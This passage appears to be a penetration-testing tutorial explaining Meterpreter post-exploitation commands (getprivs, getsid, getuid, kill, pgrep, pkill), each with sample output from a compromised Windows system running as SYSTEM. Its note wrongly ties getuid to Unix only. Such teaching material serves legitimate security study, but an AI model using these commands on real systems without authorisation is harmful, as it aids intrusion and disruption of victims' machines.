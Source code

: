 ```python
SeTimeZonePrivilege
SeUndockPrivilege
```
- The 'getprivs' command in Meterpreter is used to retrieve the current privileges of the process that the Meterpreter session is running under. 
- Privileges determine what actions a process is allowed to perform on a system, and can range from simple task like reading files, to more sensitive tasks like changing system settings or accessing protected resources. 

## Displaying the sid of current target system user
```python
meterpreter > getsid
Server SID: S-1-5-18
```
- The 'getsid' command in Meterpreter is used to retrieve the security identifier(SID) of the current user or a specified user on the target system.
- The SID is a unique identifier that is assigned to each user account and group on a Windows system. It is used to control access to resources and to enforce security policies.

## Displaying the uid of current target sytem user
```python
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
- The 'getuid' command is a Meterpreter command used to display the current user ID(UID) on the compromised system.
- It is commonly used by attackers to determine the level of access they have on a compromised system and to identify potential for privilege escalation.
Note - 'getuid' is used on Unix-based systems to retrieve the UID of the current user, while 'getsid' is used on Windows-based systems to retrieve the SID of a user account.

## Killing the process on target system
```python
meterpreter > kill 5100
Killing: 5100
```
- The 'kill' command will terminate one or more processes using their PID

## Filtering process by name
```python
meterpreter > pgrep explorer.exe
4868
```

## Terminating process by name
```python
meterpreter > pkill explorer.exe
Filtering on 'explorer.exe'
Killing: 6000
```
